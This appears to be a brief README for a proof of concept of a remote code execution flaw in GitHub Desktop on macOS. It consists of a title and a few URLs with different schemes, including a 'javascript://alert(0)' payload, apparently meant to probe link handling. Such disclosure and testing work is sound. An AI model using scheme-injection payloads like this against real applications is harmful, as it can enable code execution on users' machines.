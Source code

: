 # github-desktop-poc

PoC for GitHub Desktop RCE (OSX)

http://omespino.com

ftp://omespino.com

sftp://omespino.com

javascript://alert(0)
